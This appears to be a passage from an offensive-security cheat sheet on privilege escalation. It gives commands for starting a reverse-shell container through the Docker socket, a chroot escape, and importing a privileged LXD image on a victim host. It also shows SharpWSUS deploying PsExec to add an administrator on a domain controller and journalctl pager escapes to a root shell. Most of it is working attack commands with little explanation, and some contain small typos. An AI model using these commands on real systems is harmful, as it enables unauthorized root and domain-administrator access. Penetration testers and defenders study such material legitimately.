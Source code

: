 ```text
curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"

Then we run it.

./docket-socket-expose.sh
```

### chroot

```
chroot /root /bin/bash
```


### Increase access with lxd

```text
in attacker host
1. git clone https://github.com/saghul/lxd-alpine-builder.git
2. ./build-alpine
in victim host
3. Download built image
4. import ./alpine-v3.12-x86_64-20200621_2005.tar.gz --alias attacker
5. lxc init attacker tester -c security.privileged=true
6. lxc exec tester/bin/sh
```



### Increase access with WSUS

```text
SharpWSUS.exe create /payload:"C:\Users\user\Desktop\PsExec64.exe" /args:"-acceptula -s -d cmd.exe /c \"net localgroup administrator user /add\"" /title: title
SharpWSUS.exe approve /updateid:<id> /computername:dc.domain.dev /groupname:"title"

```
### Increase access in journalctl

The journalctl launcher must be run with more privileges such as sudo.

```text
journalctl
!/bin/sh
```

Or

```text
sudo journalctl
!/bin/sh
```

